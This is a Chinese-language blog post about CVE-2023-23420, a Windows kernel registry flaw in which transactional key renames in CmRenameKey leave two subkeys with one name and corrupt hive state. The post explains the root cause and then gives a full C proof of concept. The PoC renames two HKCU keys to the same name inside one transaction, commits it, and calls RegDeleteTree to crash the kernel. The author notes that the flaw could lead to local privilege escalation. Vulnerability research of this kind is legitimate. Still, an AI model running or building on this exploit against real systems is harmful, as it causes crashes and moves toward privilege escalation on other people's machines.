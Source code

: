 ```yaml
---
layout: post
title:  "CVE-2023-23420"
categories: hack
tags:  pentest
author: cn6u9
---
```


* content
{:toc}

Windows 中就地重命名注册表项的操作在 NtRenameKey 系统调用中实现，大部分核心逻辑在内部 CmRenameKey 函数（由 NtRenameKey 调用）中找到。为了保持 hive 数据库的状态一致，内核防止键名冲突很重要，如果已经存在另一个具有该名称的键，则永远不要接受重命名键的新名称。这是通过调用 CmpFindSubKeyByNameWithStatus 并在新名称已存在时返回 STATUS_CANNOT_DELETE 来实现的。这足以防止与配置单元中持久存在的子键发生冲突。

然而，还有一类键在 Hive 结构中还没有全局可见的键节点，但具有相应的 KCB 并且实际上存在于事务范围内：尚未提交的事务创建/重命名键. 在这个阶段，它们无法通过 CmpFindSubKeyByNameWithStatus 找到，但是 NtRenameKey/CmRenameKey 应该考虑到它们。它们目前在事务重命名案例中没有得到正确处理，这可能导致配置单元状态不一致、内存损坏和本地攻击者潜在的特权提升。

CmRenameKey 中的具体逻辑对我们来说似乎有些不直观，我们无法基于逆向工程来完全解释它。该函数知道一个密钥的 KCB 可能已经存在的事实，因为它试图通过调用 CmpFindKcbInHashEntryByName 来找到它。仅当未找到 KCB 时，才会使用 CmpCreateKeyControlBlock 分配一个新的。尽管如此，即使为新密钥名称找到了现有的 KCB，也不会进行任何进一步的检查以验证事务处理分支中 KCB 的状态（密钥是否处于活动状态？它是否处于删除/卸载状态等） .?). 相反，CmRenameKey 似乎假定 KCB 处于新鲜/未使用状态并完全拥有它，忽略对象的任何现有状态和依赖项。这表现在几个方面：

1) 例程无条件地覆盖 KCB 的部分内容，特别是 KCB.KeyCell 和 KCB.TransKCBOwner 字段（可能已经设置为不同的值）。
2) 例程在 KCB 上调用 CmpLockIXLockExclusive 两次而不检查返回值，就好像该函数永远不会失败（如果 KCB 的锁已经被另一个事务占用，它就会失败）。
3) 如果稍后在 CmRenameKey 期间遇到任何错误，则通过调用 CmpMarkKeyUnbacked/CmpDereferenceKeyControlBlockWithLock 销毁 KCB，并且不会尝试保留其现有状态。

我们发现以上是一个强有力的指标，表明该函数假设在 KCB 的新副本上运行，即使它在 CmpFindKcbInHashEntryByName 返回时可能已完全初始化并起作用。

原则上，触发漏洞需要三个步骤：

1) 通过创建（例如 RegCreateKeyEx）或重命名（例如 RegRenameKey）操作以事务方式创建测试密钥，但不要提交它。
2) 事务性地将另一个键重命名为步骤 1 中键的名称。
3) 提交步骤 1/2 中的事务。

从理论上讲，这应该会导致创建两个具有相同名称的子项，这通常是不可能的，但需要一些工作才能转换为内存损坏原语。

在实践中，由于 CmpAddSubKeyToList/CmpAddToLeaf 函数之间面临重复键名的混淆，我们立即得到数据库的不一致状态：_CM_KEY_NODE.SubKeyCounts[1] 等于 0x2，但 _CM_KEY_NODE.SubKeyLists[ 指向的键索引1] 只有一个条目。

附件是一个概念验证漏洞，它执行以下步骤：

1. 创建 HKCU\Test\AAAA 和 HKCU\Test\BBBB 密钥。
2. 将两个子项事务性地重命名为 HKCU\Test\CCCC。
3. 提交事务。
4. 尝试通过 RegDeleteTree 递归删除整个 HKCU\Test 树。

第 2-3 步触发错误，第 4 步触发内核崩溃。发生的情况是，一旦 HCKU\Test\CCCC 第一次被删除，子键索引变为空，因此 _CM_KEY_NODE.SubKeyLists[1] 单元格索引重置为 -1 (0xFFFFFFFF)。但是 _CM_KEY_NODE.SubKeyCounts[1] 仅从 0x2 递减到 0x1，因此当 RegDeleteTree API 尝试再次枚举子键以查找下一个要删除的键时，内核尝试将无效的 -1 索引转换为虚拟地址，并生成未处理的异常。

poc:
```
#include <Windows.h>
#include <ktmw32.h>
#include <sddl.h>

#include <cstdio>

#pragma comment(lib, "ktmw32")

int main(int argc, char** argv) {
  LSTATUS st;

  //
  // Create two test keys under HKCU\Test.
  //

  HKEY hTestKeyA, hTestKeyB;
  st = RegCreateKeyExA(HKEY_CURRENT_USER,
                       "Test\\AAAA",
                       0,
                       NULL,
                       REG_OPTION_VOLATILE,
                       KEY_ALL_ACCESS,
                       NULL,
                       &hTestKeyA,
                       NULL);

  if (st != ERROR_SUCCESS) {
    printf("RegCreateKeyExA #1 failed with error %d\n", st);
    return 1;
  }

  RegCloseKey(hTestKeyA);

  st = RegCreateKeyExA(HKEY_CURRENT_USER,
                       "Test\\BBBB",
                       0,
                       NULL,
                       REG_OPTION_VOLATILE,
                       KEY_ALL_ACCESS,
                       NULL,
                       &hTestKeyB,
                       NULL);

  if (st != ERROR_SUCCESS) {
    printf("RegCreateKeyExA #2 failed with error %d\n", st);
    return 1;
  }

  RegCloseKey(hTestKeyB);

  //
  // Create a transaction.
  //

  HANDLE hTrans = CreateTransaction(NULL, NULL, 0, 0, 0, 0, NULL);
  if (hTrans == INVALID_HANDLE_VALUE) {
    printf("CreateTransaction failed with error %u\n", GetLastError());
    return 1;
  }

  //
  // Open the test keys and rename both of them transactionally to the same new
  // name.
  //

  st = RegOpenKeyTransactedA(HKEY_CURRENT_USER,
                             "Test\\AAAA",
                             0,
                             KEY_ALL_ACCESS,
                             &hTestKeyA,
                             hTrans,
                             NULL);

  if (st != ERROR_SUCCESS) {
    printf("RegOpenKeyTransactedA #1 failed with error %d\n", st);
    return 1;
  }

  st = RegOpenKeyTransactedA(HKEY_CURRENT_USER,
                             "Test\\BBBB",
                             0,
                             KEY_ALL_ACCESS,
                             &hTestKeyB,
                             hTrans,
                             NULL);

  if (st != ERROR_SUCCESS) {
    printf("RegOpenKeyTransactedA #2 failed with error %d\n", st);
    return 1;
  }

  st = RegRenameKey(hTestKeyA, NULL, L"CCCC");

  if (st != ERROR_SUCCESS) {
    printf("RegRenameKey #1 failed with error %d\n", st);
    return 1;
  }

  st = RegRenameKey(hTestKeyB, NULL, L"CCCC");

  if (st != ERROR_SUCCESS) {
    printf("RegRenameKey #2 failed with error %d\n", st);
    return 1;
  }

  //
  // Commit the transaction.
  //

  if (!CommitTransaction(hTrans)) {
    printf("CommitTransaction failed with error %u\n", GetLastError());
    return 1;
  }

  //
  // Try to recursively delete the test key tree, triggering a crash.
  //

  RegDeleteTree(HKEY_CURRENT_USER, L"Test");

  return 0;
}
```

# 小结


